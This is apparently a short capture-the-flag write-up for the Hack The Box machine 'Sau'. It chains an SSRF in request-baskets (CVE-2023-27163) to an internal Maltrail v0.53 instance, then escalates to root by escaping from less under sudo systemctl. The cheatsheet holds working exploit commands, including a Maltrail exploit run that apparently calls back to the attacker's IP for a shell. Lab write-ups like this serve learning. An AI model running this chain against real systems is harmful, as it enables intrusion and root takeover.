 # Sau \[Linux Easy]

## Report

The http server is filtered and the webrequest hosted on port 55555 performs the requests as an intermediary. This is prone to SSRF and CVE-2023-27163 allows us to perform that.

The user is allowed to check the status of trail.service as sudo, since the output is too large it is passed to less which can be exploited to become root.&#x20;

## Cheatsheet

```
nmap -sV -sC 10.10.11.224 -v
git clone https://github.com/entr0pie/CVE-2023-27163
./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80 
Maltrail-v0.53-Exploit
python3 exploit.py 10.10.14.29 9001 http://10.10.11.224:55555/gusqoa

python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
sudo /usr/bin/systemctl status trail.service
(passes output to less cus many lines in output)
!/bin/sh
```

## Loot

Powered by Maltrail (v0.53)

User puma may run the following commands on sau: \
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

This should tell you that you DON'T need a password for this command so when you did run a sudo command and asked for the password, it wasn't the right one you idiot and then went off to find creds for puma
